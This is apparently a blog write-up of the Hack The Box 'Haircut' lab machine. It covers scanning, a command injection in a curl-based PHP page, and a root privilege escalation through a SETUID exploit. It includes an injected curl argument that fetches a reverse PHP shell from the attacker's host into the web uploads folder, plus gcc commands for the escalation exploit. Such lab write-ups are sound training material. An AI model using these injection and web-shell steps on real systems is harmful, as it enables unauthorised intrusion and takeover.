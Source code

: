 ```yaml
---
title:     "Hack The Box - Haircut"
tags: [linux,medium,curl]
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/1.png)

We are going to pwn Haircut from Hack The Box.

Link :<https://www.hackthebox.eu/home/machines/profile/21>


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/2.png)
Looks like normal webpage, Lets try bruteforcing the directories and look for anything interesting.

## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/21 18:36:57 Starting gobuster
===============================================================
/index.html (Status: 200)
/uploads (Status: 301)
/test.html (Status: 200)
/hair.html (Status: 200)
/exposed.php (Status: 200)
===============================================================
2020/01/21 18:39:38 Finished
===============================================================
```

``/exposed.php`` 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/3.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/4.png)
``curl`` is running in the server so lets interrupt the request in the ``burp`` and see what going on.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/5.png)
So by using ``curl`` we need to inject our payload inorder to get shell.

There is a way to upload reverse shell to the box using ``curl`` 
I started my HTTP server with ``Reverse PHP shell `` And we already know there is ``/uploads`` directory. 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/6.png)

```
http://10.10.14.17:8000/shell.php -o /var/www/html/uploads/shell.php

-o will Write the file in /uploads/
```
Now lets start our listener and open the ``shell.php`` in the ``/uploads``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/7.png)

We got the shell.


## Privilege Escalation:

I upload my Linux Enumeration Script and I found an SETUID binary
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/8.png)

There is an exploit available for this version.

> https://www.exploit-db.com/exploits/41154

Downloaded the script and tried executing it leads to some error , So I split the script into 3

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/9.png)

Did the commands given from the script as manually.

> gcc -fPIC -shared -ldl -o exploit.so exploit.c 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/10.png)

>gcc -o rootshell rootshell.c

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/11.png)

Then I uploaded all the scripts to the box
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/12.png)

And executed the last script ``root.sh``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/13.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-haircut/14.png)
Got Root







